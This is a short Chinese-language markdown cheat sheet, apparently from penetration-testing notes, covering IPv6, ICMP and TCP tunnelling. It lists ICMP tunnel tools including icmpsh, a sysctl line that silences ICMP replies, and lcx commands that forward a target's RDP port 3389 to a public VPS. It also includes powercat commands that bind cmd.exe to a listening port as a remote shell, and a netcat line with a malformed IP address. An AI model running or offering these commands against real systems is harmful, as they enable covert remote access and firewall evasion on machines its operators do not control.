 ### 网络层隧道（ipv6、icmp）

- IPV6

```
socat
6tunnel
nt6tunnel
```

- ICMP

```
关闭本地icmp应答
Sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

```
icmpsh
https://github.com/inquisb/icmpsh.git

PingTunnel
icmptunnel
powershell icmp
```

### 传输层隧道技术(tcp、udp、常规端口转发)

- lcx

```
目标机器
lcx.exe -slave 公网主机ip 4444 127.0.0.1 3389

vps
lcx.exe -listen 4444 5555

本地端口转发
lcx -tran 53 目标主机ip地址 3389
```

- netcat(nc)

#### PowerCat(nc的powershell版本)

- 导入

```
Import-Moudle powercat.ps1
```

- nc正常连接PowerCat

```
目标
powercat -l -p 8080 -c cmd.exe -v 

本地
netcat 192.168.130 8080 -vv
```
